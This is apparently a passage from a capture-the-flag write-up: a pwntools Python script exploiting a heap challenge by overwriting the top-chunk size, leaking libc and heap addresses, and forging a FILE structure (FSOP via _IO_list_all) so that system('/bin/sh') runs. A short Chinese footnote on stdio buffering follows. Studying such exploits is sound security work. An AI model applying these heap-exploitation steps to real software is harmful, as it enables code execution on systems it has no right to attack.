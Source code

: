 ```python
	p.recvuntil(": ")
	p.sendline(str(id))
def edit(id,content):
	command(3)
	p.recvuntil(": ")
	p.sendline(str(id))
	p.recvuntil(": ")
	p.send(content)

# overwrite topchunk size
add(0,0x88,'a'*0x88+p64(0xf71))
# frow topchunk into unsortedbin
add(1,0xfff,'b')

#leak libc
edit(0,'a'*0x90)
show(0)
p.recvuntil('a'*0x90)
libc_base = u64(p.recv(6).ljust(8,'\x00'))-88-0x3c4b20
log.info("libc_base:"+hex(libc_base))

# repair chunk_size&prev_size
payload = 'a'*0x88+p64(0xf71)+p64(libc_base+88+0x3c4b20)*2
payload += 'a'*0xf50+p64(0xf70)
edit(0,payload)
p.recvuntil("Done")

# larginbin leak heap addr
add(2,0x450,'c')
edit(0,'a'*0xa0)
show(2)
gdb.attach(p)
p.recvuntil('a'*0x10)
heap_base = u64(p.recv(6).ljust(8,'\x00'))-0x90
log.info("heap_base:"+hex(heap_base))
edit(0,'a'*0x88+p64(0x461))

IO_list_all=libc_base+libc.sym['_IO_list_all']
log.info("IO_list_all:"+hex(IO_list_all))
system=libc_base+libc.sym['system']

# FSOP
# set fake struct
#payload='a'*0x450+p64(0)+p64(0x21)+p64(0x0000ddaa00000003)+p64(0)
payload = 'b'*0x450
fake = '/bin/sh\x00'+p64(0x61)
fake += p64(0)+p64(IO_list_all-0x10)
fake += p64(0) + p64(1)
fake = fake.ljust(0xc0,'\x00')
fake += p64(0) * 3
fake += p64(heap_base+0x5c8) # vtable
fake += p64(0) * 2
fake += p64(system)
payload += fake

# payload = 'b'*0x458+p64(0x60)
edit(2,payload)

#gdb.attach(p,'b *$rebase(0xc2e)')

command(1)
p.recvuntil(": ")
p.sendline(str(3))
```

[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）